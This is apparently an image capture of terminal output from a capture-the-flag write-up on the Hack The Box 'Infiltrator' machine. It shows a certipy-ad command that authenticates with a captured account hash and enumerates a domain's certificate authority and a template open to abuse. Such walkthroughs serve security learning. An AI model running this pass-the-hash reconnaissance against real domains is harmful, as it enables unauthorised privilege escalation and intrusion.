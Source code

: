 ```bash
❯ certipy-ad find -u 'infiltrator_svc$'@infiltrator.htb -hashes 3ec423661d68dbda6c94ff25ff4d726b -dc-ip 10.10.11.31 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'infiltrator-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : infiltrator-DC01-CA
    DNS Name                            : dc01.infiltrator.htb
    Certificate Subject                 : CN=infiltrator-DC01-CA, DC=infiltrator, DC=htb
    Certificate Serial Number           : 724BCC4E21EA6681495514E0FD8A5149
    Certificate Validity Start          : 2023-12-08 01:42:38+00:00
    Certificate Validity End            : 2124-08-04 18:55:57+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : INFILTRATOR.HTB\Administrators
      Access Rights
        ManageCertificates              : INFILTRATOR.HTB\Administrators
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
        ManageCa                        : INFILTRATOR.HTB\Administrators
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
        Enroll                          : INFILTRATOR.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Infiltrator_Template
    Display Name                        : Infiltrator_Template
    Certificate Authorities             : infiltrator-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          PendAllRequests
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Smart Card Logon
                                          Server Authentication
                                          KDC Authentication
                                          Client Authentication
    Requires Manager Approval           : True
    Requires Key Archival               : False
    Authorized Signatures Required      : 1
    Validity Period                     : 99 years
    Renewal Period                      : 650430 hours
    Minimum RSA Key Length              : 2048
```